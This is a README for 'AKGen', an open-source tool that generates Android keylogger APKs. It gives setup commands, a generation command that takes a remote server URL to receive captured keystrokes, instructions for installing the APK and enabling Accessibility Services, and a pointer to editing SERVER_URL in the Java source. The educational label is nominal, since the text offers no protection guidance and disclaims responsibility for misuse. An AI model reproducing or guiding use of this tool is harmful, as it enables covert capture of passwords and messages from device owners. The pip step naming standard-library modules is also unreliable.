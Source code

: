 # Android Keylogger Generator (AKGen)

AKGen is an open-source tool that allows users to generate a custom keylogger APK for Android devices. This tool is strictly for educational and ethical purposes. It helps users understand how keyloggers work and how to protect against them.

---

## Features
- **Customizable Keylogger:** Generate a keylogger APK with your own settings.
- **Local or Remote Logging:** Save keystrokes locally or send them to a remote server.
- **Tested on Kali Linux:** Fully compatible with Kali Linux.

---

## Prerequisites
Before using AKGen, ensure you have the following installed:
1. **Python 3** (Pre-installed on Kali Linux)
2. **Android SDK** (Download from [developer.android.com](https://developer.android.com/studio))
3. **Gradle** (Install using `sudo apt install gradle`)
4. **Git** (Install using `sudo apt install git`)


---

## Installation
1. Clone the repository:
```bash
git clone https://github.com/trmxvibs/AKGen
cd AKGen
```
2. Install required dependencies:
 ```bash
pip install argparse subprocess os shutil
```

3. Set up Android SDK and Gradle:

Download and install Android SDK.

Set environment variables:
```bash
export ANDROID_HOME=/path/to/android-sdk
export PATH=$PATH:$ANDROID_HOME/tools/bin
```
---

# How to Use
Step 1: Generate the APK
Run the following command to generate the keylogger APK:
```bash
python akgen.py -o akgen.apk -s (severdetails)
```
`-o`: Output APK file name.

`-s`: Server URL to send keystrokes (optional). If not provided, keystrokes will be saved locally.


# Step 2: Install the APK
Transfer the generated APK (`akgen.apk`) to your Android device.

Install the APK on your device.

 # Step 3: Enable Keylogger
Open the app on your Android device.

Click the "Enable Keylogger" button.

Grant the necessary permissions (Accessibility Services).
---
# Customization
You can customize the keylogger APK as per your requirements:

1. Change Server URL
Modify the `-s` parameter in the command to specify your server URL:
```
python akgen.py -o output.apk -s http://your-custom-server.com
```
2. Modify Keylogger Logic
Edit the KeyLoggerService.java file in the template_apk folder to change the keylogger behavior:

`private static final String SERVER_URL = "YOUR_SERVER_URL`


3. Modify UI
Edit the `activity_main.xml` file in the `template_apk` folder to change the app's user interface.


---

# How It Works -
APK Generation:

The `akgen.py` script modifies the template APK based on user input (e.g., server URL).

It builds the APK using Gradle.

Keylogger Functionality:

The app uses Android's Accessibility Services to capture keystrokes.

Captured keystrokes are either saved locally or sent to a remote server.




# License
This project is licensed under the MIT License. See the LICENSE file for details.

# Contributing
Contributions are welcome! If you have any suggestions or improvements, feel free to open an issue or submit a pull request.

# Disclaimer
The developers are not responsible for any misuse of this tool. Use it at your own risk.






















